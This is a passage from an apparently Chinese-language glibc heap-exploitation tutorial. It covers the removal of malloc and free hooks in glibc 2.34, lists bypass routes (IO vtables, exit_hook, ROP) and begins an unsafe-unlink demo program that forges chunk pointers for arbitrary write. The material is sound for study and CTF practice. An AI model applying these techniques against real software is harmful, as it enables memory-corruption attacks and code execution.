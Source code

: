 ```c
e->key = NULL;
 
return (void *) e;
 
}
```

aligned_OK()定义为：

```c
#define aligned_OK(m)  (((unsigned long)(m) & MALLOC_ALIGN_MASK) == 0)
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT – 1)
#define MALLOC_ALIGNMENT (2 * SIZE_SZ < __alignof__ (long double) \
? __alignof__ (long double) : 2 * SIZE_SZ)
```

可以看到内存地址需要以0x10字节对齐。

### libc-2.34

glibc-2.34 的到来给予了hook劫持沉重的一击，移除了以下几个hook符号：

> __free_hook
>
> __malloc_hook
>
> __realloc_hook
>
> __memalign_hook
>
> __after_morecore_hook

#### 绕过思路

1. 利用IO_vtable
2. 利用exit_hook
3. 劫持返回地址进行ROP

## unsafe unlink

unsafe-unlink利用chunkfree时的合并机制，实现了地址的任意读写

> 使用条件：
>
> - 能够利用溢出或其他漏洞，将某chunk的size域的最低16进制位修改为0，例: 0x91 –> 0x90

```c
/*这是一段unsafe-unlink的示例代码，我们在最后成功利用这个漏洞，
实现了对非堆上地址victimstring的内容更改*/
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
 
uint64_t * chunk0_ptr;
int main()
{
    chunk0_ptr = (uint64_t*)malloc(0x80);       //chunk0
    uint64_t *chunk1_ptr = (uint64_t*) malloc(0x80);        //chunk1
    fprintf(stderr, "chunk0_ptr: %p -> %p\n",&chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "victim chunk: %p\n\n",chunk1_ptr);
 
    /*pass the check:   (chunksize(p) != prev_size(next_chunk(P)) == False)
                        chunk0_ptr[1] = 0x0;// or 0x8, 0x80*/
 
    //pass the check:   (p->fd->bk != p || p->bk->fd != p) == False
 
    chunk0_ptr [2] = (uint64_t) &chunk0_ptr - 0x18;
```